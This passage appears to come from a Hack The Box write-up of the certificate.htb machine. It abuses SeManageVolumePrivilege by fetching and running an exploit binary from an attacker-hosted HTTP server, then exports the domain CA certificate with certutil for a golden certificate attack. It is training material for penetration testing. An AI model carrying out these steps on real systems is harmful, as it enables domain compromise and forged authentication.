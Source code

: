 #### SeManageVolumePrivilege
We can leverage the `SeManageVolumePrivilege` to gain **full read/write access to the disk**. Using this we can **obtain the CA's private key** to create a golden certificate! 

We need to upload and run [this exploit](https://github.com/CsEnox/SeManageVolumeExploit){:target="_blank"}{:rel="noopener noreferrer"} to the machine
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe

┌──(kali@kali)-[~/certificate.htb]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```powershell
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> Invoke-WebRequest "http://10.10.14.17:80/SeManageVolumeExploit.exe" -OutFile "exploit.exe"
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> ./exploit.exe
Entries changed: 862

DONE
```

Looking at the certificates again
```powershell
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> certutil -store my
# ...
================ Certificate 3 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
CertUtil: -store command completed successfully.
```

`Signature test passed` means we can use this ticket to perform a [golden certificate](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc5-vulnerable-pki-object-access-control){:target="_blank"}{:rel="noopener noreferrer"} attack
#### Golden Certificate
Let's export and download the target ticket to our machine
```powershell

*Evil-WinRM* PS C:\Users\Ryan.K\Documents> certutil -exportPFX 75b2f4bbf31f108945147b466131bdca ca_cert.pfx
MY "Personal"
================ Certificate 3 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
```